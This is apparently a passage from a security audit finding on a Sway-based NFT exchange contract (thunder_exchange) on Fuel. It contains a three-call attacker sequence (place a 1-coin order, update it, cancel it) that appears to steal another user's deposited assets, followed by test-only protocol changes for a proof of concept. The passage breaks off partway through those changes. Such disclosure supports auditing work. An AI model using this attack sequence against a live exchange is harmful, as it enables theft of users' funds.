 ```rs
        // innocent user
        exchange.place_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: order.amount }(order);

        // attacker
        exchange.place_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: 1 }(order);
        exchange.update_order(order);
        exchange.cancel_order(order.strategy, order.nonce, order.side);
```

### Actual POC

There are some steps to follow:

To create an actual PoC, some modifications to the protocol are necessary.

1. The protocol currently only allows addresses to interact, which is generally fine. However, when transferring coins in the Fuel ecosystem, a Variable Output needs to be added to the transaction — this isn't supported by the current Sway testing tools.
2. Since this vulnerability is unrelated to the nature of who interacts with the protocol, adjustments will be made to allow contracts to interact, enabling the PoC. These changes are strictly for testing purposes and do not affect the core issue.

#### Changes to the protocol for the POC

* Add the following changes to the `thunder_exchange` contract:

```rs
// line 141 change from:
        let caller = get_msg_sender_address_or_panic();
// change to
        let caller = Address::from(get_msg_sender_contract_or_panic().bits()); // changed for POC
/* ------------------------------------------------------------------------------------------------------ */
// line 162 change from:
        Identity::Address(unwrapped_order.maker),
// change to
        Identity::ContractId(ContractId::from(unwrapped_order.maker.bits())), // changed for POC
/* ------------------------------------------------------------------------------------------------------ */
// line 324 change from:
        require(input.maker == get_msg_sender_address_or_panic(), ThunderExchangeErrors::CallerMustBeMaker);
// change to
        require(input.maker == Address::from(get_msg_sender_contract_or_panic().bits()), ThunderExchangeErrors::CallerMustBeMaker);  // changed for POC
/* ------------------------------------------------------------------------------------------------------ */
// line 352 change from:
        require(taker_order.taker == get_msg_sender_address_or_panic(), ThunderExchangeErrors::CallerMustBeMaker);
// change to
        require(taker_order.taker == Address::from(get_msg_sender_contract_or_panic().bits()), ThunderExchangeErrors::CallerMustBeMaker); // changed for POC
/* ------------------------------------------------------------------------------------------------------ */
// line 388 change from:
        Identity::Address(order.taker),
// change to
        Identity::ContractId(ContractId::from(order.taker.bits())),  // changed for POC
/* ------------------------------------------------------------------------------------------------------ */
// line 408 change from:
        Identity::Address(order.maker),
```